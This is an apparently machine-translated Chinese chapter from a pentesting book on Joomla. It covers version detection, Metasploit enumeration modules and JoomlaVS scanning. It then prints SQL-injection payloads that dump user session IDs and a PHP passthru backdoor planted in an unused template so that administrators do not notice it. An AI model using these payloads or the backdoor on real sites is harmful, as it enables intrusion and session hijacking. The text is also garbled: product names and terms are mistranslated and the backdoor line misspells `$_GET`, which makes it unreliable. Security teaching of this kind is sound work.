# Pentesting CMSes-Joomla

在上一章中，我们学习了如何在 WordPress 上执行**渗透测试**（**pentesting**）。与 WordPress 一样，还有另一个**内容管理系统**（**CMS**），被组织广泛用于管理其网站门户——Joomla。在本章中，我们将了解 Joomla 及其体系结构，以及可用于测试基于 Joomla 的网站安全性的模块。以下是我们将在本章中介绍的主题：

*   乔姆拉简介
*   乔姆拉建筑
*   侦察和枚举
*   使用 Metasploit 枚举 Joomla 插件和模块
*   使用 Joomla 执行漏洞扫描
*   使用 Metasploit 开发 Joomla
*   Joomla shell 上传

# 技术要求

以下是本章的技术先决条件：

*   Metasploit 框架（[https://github.com/rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework) ）
*   Joomla CMS（[https://www.joomla.org/](https://www.joomla.org/) ）
*   已安装的数据库；建议使用 MySQL（[https://www.mysql.com/](https://www.mysql.com/) ）
*   Linux 命令的基本知识

# 乔姆拉简介

Joomla 是一个免费的开源 CMS，由开源事务公司创建，用于发布 web 内容。基于**模型视图控制器**（**MVC**web 应用框架，可独立于 CMS 使用。Joomla 成立于 2005 年 8 月 17 日，是 Mambo fork 的产物。

Joomla 有数千个扩展和模板，其中很多都是免费提供的。Joomla 的一些功能包括：

*   它是多语言的。
*   它提供开箱即用的**搜索引擎优化**（**SEO**）和**搜索引擎友好**（**SEF**）。
*   可根据**通用公共许可证**（**GPL**免费使用。
*   它有访问控制列表，允许您管理网站的用户以及不同的组。
*   它具有菜单管理功能，因此可以根据需要创建任意多个菜单和菜单项。

现在我们已经简要介绍了 Joomla，让我们看看它的体系结构，以便更深入地了解该软件。

# 乔姆拉建筑

Joomla 的体系结构基于 MVC 框架。我们可以将架构分为四个主要部分：

*   **显示**：这是前端，用户访问网站时会看到。它包含 HTML 和 CSS 文件。
*   **扩展**：扩展可进一步细分为五大类型：
    *   **组件**：组件可以看作是小型应用程序；它们适用于用户和管理员。
    *   **模块**：这些模块是小而灵活的扩展，可用于呈现页面。一个例子是登录模块。
    *   **插件**：这些是更高级的扩展，也称为事件处理程序。这些事件可以从任何地方触发，并执行与该事件关联的插件。
    *   **模板**：模板关注网站的外观。有两种类型的模板用于前端和后端。管理员使用后端模板监控功能，而前端模板向访问者/用户展示网站。
    *   **语言**：处理网站文本的翻译。Joomla 支持 70 多种语言。
*   **框架**：框架由 Joomla 核心组成。这些是负责应用程序主要功能的 PHP 文件，如配置文件。
*   **数据库**：数据库存储用户信息、内容等。Joomla 支持 MySQL、**Microsoft Server SQL**（**MSSQL**）和 PostgreSQL 等。

# 文件和目录结构

Joomla 中的目录名非常简单。我们可以通过查看目录的名称来猜测目录的内容。Joomla 文件和目录具有以下结构：

*   `Root`：这是我们提取 Joomla 源代码的地方。它包含一个执行安装过程的索引文件。
*   `Administrator`：此文件夹包含 Joomla 管理员界面的所有文件（组件、模板、模块、插件等）。
*   `Cache`：此文件夹包含 Joomla 缓存的文件，以提高 CMS 的性能和效率。
*   `Components`：此文件夹包含所有用户组件（管理员除外），包括登录和搜索。
*   `Images`：此目录包含 Joomla 界面使用的所有图像，以及用户上传的图像。
*   `Includes`：此目录包含核心 Joomla 文件。
*   `Installation`：此文件夹包含安装 Joomla 所需的文件。安装后应将其删除。
*   `Language`：此文件夹包含所有语言文件。Joomla 以简单的基于 INI 的文件格式存储翻译。
*   `Libraries`：此文件夹包含整个核心库，以及 Joomla 的第三方库。它包含描述文件系统、数据库等的文件。

*   `Logs`：此文件夹包含应用程序日志。
*   `Media`：此目录存储所有媒体文件，如 flash 和视频。
*   `Modules`：模块放置在 Joomla 模板中，如面板。此文件夹包含前端模块的所有文件。一些常见模块包括登录、新闻和投票。
*   `Plugins`：此文件夹包含所有插件文件。
*   `Templates`：此文件夹包含所有前端模板文件。每个模板都按名称组织在文件夹中。
*   `Tmp`：此文件夹存储 Joomla 管理员和用户界面使用的临时文件和 cookie。

我们现在已经了解了 Joomla 体系结构。接下来，我们将介绍侦察和枚举。

# 侦察和枚举

在使用 Joomla 之前，要执行的第一步是确认 web 应用程序是否由它供电。有多种检测 CMS 安装的方法，其中一些方法如下所示：

*   通过搜索`<meta name="generator" content="Joomla! - Open Source Content Management" />`
*   通过探索`X-Meta-Generator HTTP`标题
*   通过检查`RSS/atom feeds: index.php?format=feed&type=rss/atom`
*   使用 Google Dorks:`inurl:"index.php?option=com_users`
*   通过查找`X-Content-Encoded-By: Joomla`标题
*   通过寻找`joomla.svg/k2.png/SOBI 2.png/SobiPro.png/VirtueMart.png`

接下来，让我们了解安装了 Joomla 的哪个版本。

# 版本检测

既然我们对 Joomla 了解得足够多，我们可以从 CMS pentesting 开始（我们在上一章[第 8 章](08.html)、*pentesting a CMS–WordPress*中了解到了这一点）。测试 Joomla CMS 的第一步是查找目标服务器上安装的版本。以下是我们可以检测安装了哪个版本的方法：

*   通过元标记进行检测
*   通过服务器头进行检测
*   通过语言配置进行检测
*   通过`README.txt`进行检测
*   通过`manifest`文件进行检测
*   通过唯一关键字进行检测

# 通过元标记进行检测

`generator`元标记通常被描述为用于生成文档或网页的软件。确切的版本号在 meta 标签的`content`属性中公开：


基于 Joomla 的网站通常在其源代码中有此标记，如前面的屏幕截图所示。

# 通过服务器头进行检测

Joomla 版本号经常在承载应用程序的服务器的响应头中公开。版本可以在`X-Content-Encoded-By`标题中公开，如以下截图所示：


接下来，我们将通过语言配置查看检测。

# 通过语言配置进行检测

Joomla 支持 70 多种语言。每个语言包都有一个 XML 文件，用于公开版本信息，如图所示：


本页面可通过`/language/<language-type>/<language-type>.xml`页面访问。在本例中，我们搜索了英式英语（`en-GB`格式）。

# 通过 README.txt 进行检测

这是最简单和最基本的技术。我们只需访问`README.txt`页面，就会看到版本号，如图所示：


该文件包含与 Joomla 首次用户相关的各种信息。

# 通过清单文件进行检测

Joomla`manifest`文件位于`/administrator/manifests/files/joomla.xml`中，包含与服务器上安装的 CMS 相关的基本信息，以及正在运行的模块、版本号、安装日期等。这也是查找正在运行的 CMS 版本号的好地方：


前面的屏幕截图显示了包含版本号的`manifest`文件。

# 通过唯一关键字进行检测

确定 web 服务器上运行的 Joomla 版本的另一种方法是在以下文件中查找特定关键字。这些关键字是特定于版本的，其中一些关键字列在此代码块下的表中：

```
administrator/manifests/files/joomla.xml
language/en-GB/en-GB.xml
templates/system/css/system.css
media/system/js/mootools-more.jsh
taccess.txt
language/en-GB/en-GB.com_media.ini
```

根据 Joomla 版本，独特的关键字详细信息如下：

| **乔姆拉版本** | **唯一关键词** |
| 版本 2.5 | `MooTools.More={version:"1.4.0.1"}` |
| 版本 1.7 | `21322 2011-05-11 01:10:29Z dextercowley``22183 2011-09-30 09:04:32Z infograf768``21660 2011-06-23 13:25:32Z infograf768``MooTools.More={version:"1.3.2.1"}` |
| 版本 1.6 | `20196 2011-01-09 02:40:25Z ian``20990 2011-03-18 16:42:30Z infograf768``MooTools.More={version:"1.3.0.1"}` |
| 版本 1.5 | `MooTools={version:'1.12'}``11391 2009-01-04 13:35:50Z ian` |
| 版本 1.0 | `47 2005-09-15 02:55:27Z rhuk``423 2005-10-09 18:23:50Z stingrey``1005 2005-11-13 17:33:59Z stingrey``1570 2005-12-29 05:53:33Z eddieajau``2368 2006-02-14 17:40:02Z stingrey``4085 2006-06-21 16:03:54Z stingrey``4756 2006-08-25 16:07:11Z stingrey``5973 2006-12-11 01:26:33Z robs``5975 2006-12-11 01:26:33Z robs` |

以下截图显示了`en-GB.ini`文件中的一个关键字，这意味着版本为 1.6：



在下一节中，我们将介绍如何使用 Metasploit 对 Joomla 进行侦察。

# 使用 Metasploit 进行 Joomla 侦察

现在我们已经了解了检测基于 Joomla 的目标的不同方法，我们可以使用 Metasploit 框架中已经提供的 Metasploit 模块执行侦察。我们将使用的第一个模块是`joomla_version`模块。我们可以使用`use auxiliary/scanner/http/joomla_version`命令，如图所示：



在设置好模块所需的所有信息（即 RHOSTS 和 RPORT）后，我们可以使用`run`命令执行模块，如图所示：



此模块将通过*版本检测*部分介绍的不同方法返回目标实例上运行的 Joomla 版本。在下一节中，我们将学习如何使用 Metasploit 枚举 Joomla 插件和模块

# 使用 Metasploit 枚举 Joomla 插件和模块

我们还可以使用 Metasploit 的内置辅助工具来执行 Joomla 的枚举。以下是用于枚举 Metasploit 中可用的 Joomla 的类别：

*   页面枚举
*   插件枚举

# 页面枚举

第一个是**页面枚举**。该辅助程序扫描 Joomla 中存在的常见页面，例如`readme`和`robots.txt`。

要使用辅助命令，我们使用以下命令：

```
use auxiliary/scanner/http/joomla_pages
```

然后使用`show options`命令查看各个模块选项，如图所示：



我们设置`RHOSTS`和`RPORT`并运行模块。模块完成后，将打印发现的页面，如图所示：


下一步是使用另一个 Metasploit 模块枚举 Joomla 插件。

# 插件枚举

Metasploit 的另一个可用于枚举插件的辅助工具是`joomla_plugins`。辅助程序使用单词列表查找目录路径，以检测 Joomla 使用的各种插件。我们可以执行以下命令来使用插件枚举模块：

```
use auxiliary/scanner/http/joomla_plugins
```

以下屏幕截图显示了前面命令的输出：



`show options`的输出如前一屏幕截图所示。执行模块后，脚本将返回它发现的插件的名称，如图所示：



默认情况下，[处的单词列表 https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt) 由辅助设备使用；我们也可以使用自定义单词列表。在下一节中，我们将使用 Joomla 执行漏洞扫描。

# 使用 Joomla 执行漏洞扫描

Metasploit 还没有用于 Joomla 特定漏洞评估的内置模块。这给了我们两个选择；我们可以自己为 Joomla 制作一个包装器或插件，就像我们在上一章中为 WordPress 所做的那样，或者使用不同的在线工具，比如 JoomScan 或 JoomlaVS。在本节中，我们将介绍一个可用于对 Joomla 进行漏洞评估的强大工具。

官方 Joomla GitHub wiki 页面包含以下说明：

JoomlaVS 是一个 Ruby 应用程序，可以帮助自动评估 Joomla 安装易受攻击的程度。它支持基本指纹识别，可以扫描组件、模块和模板中的漏洞，以及 Joomla 本身存在的漏洞。

JoomlaVS 可从以下网址下载：[https://github.com/rastating/joomlavs](https://github.com/rastating/joomlavs) 。

可以通过执行以下命令来运行该工具：

```
./joomlavs.rb
```

在没有任何参数的情况下运行该工具将打印`help`部分，如下面的屏幕截图所示。该工具支持不同的扫描类型，例如仅扫描模块、模板或组件：


要对所有扩展名的 URL 执行扫描，可以使用以下命令：

```
./joomlavs.rb --url http://<domain here>/ -a
```

该工具将开始运行，它发现的所有细节将打印在屏幕上，如图所示：


一旦我们有了关于可用漏洞利用、插件和版本号的信息，我们就可以继续进行漏洞利用过程。

# 使用 Metasploit 开发 Joomla

一旦完成所有枚举和版本检测，就到了利用漏洞的时候了。在本节中，我们将介绍利用 Joomla 的一些方法。第一个是 Joomla 中应用的著名 SQL 注入漏洞，用于获得**远程代码执行**（**RCE**）。Metasploit 模块可用于此目的，我们可以通过执行`use exploit/unix/webapp/joomla_comfields_sqli_rce`命令来使用它，如以下屏幕截图所示：


在运行漏洞利用之前，让我们看看它是如何工作的。

# 开发是如何工作的

将以下 SQL 查询发送到服务器，服务器返回表名前缀的 Base64 编码值：


这可以看出如下几点：

```
(UPDATEXML(2170,CONCAT(0x2e,0x#{start_h},(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x#{fin_h}),4879))
```

发送到 web 服务器的请求的屏幕截图如下所示：


web 服务器返回表名前缀的 Base64 编码值，如下所示，介于`ABC`之间：



以下屏幕截图显示了用于转储用户会话的 SQL 查询：



具体情况如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,42) FROM ntnsi_session where userid!=0 LIMIT 1),0x414243),4879))
```

使用`send_request_cgi()`方法发送请求。服务器将给出一个`Internal Server Error`错误（代码`500`，但我们可以使用十六进制值（换句话说，`#{start_h}`和`#{fin_h}`）作为输出的正则表达式来查找会话。以下屏幕截图显示了在十六进制值之间查找会话的代码：


以下屏幕截图显示了发送到服务器以转储会话信息的 SQL 查询：


以下屏幕截图显示了 web 服务器的响应，显示了用户的会话：


正如我们在下面的屏幕截图中所看到的，会话是从数据库中检索到的，但是在我们的例子中，我们遇到了一个问题；似乎存在字符限制：


查看数据库中的值，我们可以看到并没有返回所有字符，如图所示：


屏幕上没有显示最后三个十六进制值为`ABC`的字符。为了解决这个问题，我们可以使用一种变通方法，不使用单个查询从数据库检索会话，而是使用`MID()`函数将会话分为两部分。

需要使用的第一个 SQL 会话负载`1`如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,15) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

具体情况如下：


下面的屏幕截图给出了执行前面的 SQL 有效负载`1`的结果：


现在，我们需要使用的第二个 SQL 会话负载如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,16,42) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

具体情况如下：


下面的屏幕截图给出了执行前面的 SQL 有效负载`2`的结果：



现在，我们只需要将通过执行前面步骤中的有效负载`1`和`2`检索到的两个输出连接成一个。让我们将代码添加到模块中：



现在代码已经修改，让我们保存文件并执行模块，看看它是否工作：


正如我们从前面的屏幕截图中看到的，我们能够成功地检索会话，并且使用存储在数据库中的会话，我们打开了一个 MeterMeter 会话！

# Joomla shell 上传

为了了解 shell 在前面提到的漏洞中的上载位置，我们将从管理员面板手动上载一个基本命令执行 shell。

利用此漏洞后，一旦我们以管理员身份成功登录，我们就可以从 templates 菜单上载 shell。以下屏幕截图显示了 Joomla 的管理面板：


从面板的菜单中，单击扩展|模板|模板，如图所示：


我们被重定向到模板页面，其中列出了当前上传的所有模板，包括当前正在使用的模板。最好不要触摸当前模板，因为这可能会导致管理员注意到更改并发现我们的代码：


前面的屏幕截图显示了模板列表。我们将选择 Protostar，因此单击该模板，然后您将被重定向到下一页，在该页的左侧，列出了该模板的所有 PHP 页面，如图所示：


我们单击 index.php 并将定制的 php 一行代码添加到文件中。这起到了后门的作用，允许我们执行系统级命令：

```
<?php passthru($GET['cmd']); ?>
```

以下屏幕截图显示索引的第一行现在有了我们的后门：



保存更改后，我们可以通过以下路径浏览我们的后门：

```
domainname.com/<joomla path>/templates/<template name>/index.php?cmd=id
```

以下屏幕截图显示我们的命令已成功执行：


一旦我们向客户提供了概念证明，Joomla 的开发就结束了。然而，超出正常的开发方法并进入网络是需要在项目启动会议上与客户讨论的事情。作为笔测试人员，我们必须遵守客户定义的范围。

如果上传任何此类有效负载只是为了获得概念验证，我们有义务在攻击完成后移除这些后门。

# 总结

在本章中，我们学习了 Joomla 体系结构及其文件和目录结构。然后，我们进入了侦察过程，了解了查找 Joomla 实例及其版本号的不同方法。我们还研究了为我们实现过程自动化的工具和脚本。最后，我们研究了 Joomla 漏洞利用的深入过程，并使用以前发现的公开漏洞利用的示例研究了漏洞利用的工作原理。

在下一章中，我们将学习如何在另一个流行的 CMS Drupal 上执行笔测试。

# 问题

1.  我可以在任何操作系统上安装 Joomla 吗？

2.  如果现有的 Metasploit 模块找不到 Joomla 版本，我可以创建自己的 Metasploit 模块吗？

3.  Metasploit 模块无法检测到安装的 Joomla 版本。有没有其他检测方法？

4.  我利用 Joomla 上传漏洞上传了一个 shell。是否有可能以任何隐蔽的方式对 CMS 进行后门操作？

# 进一步阅读

*   Joomla 中易受攻击的扩展列表可在[中找到 https://vel.joomla.org/live-vel](https://vel.joomla.org/live-vel) 。

*   有关 Joomla 架构的更多信息，请参见[https://docs.joomla.org/Archived:CMS_Architecture_in_1.5_and_1.6](https://docs.joomla.org/Archived:CMS_Architecture_in_1.5_and_1.6) 。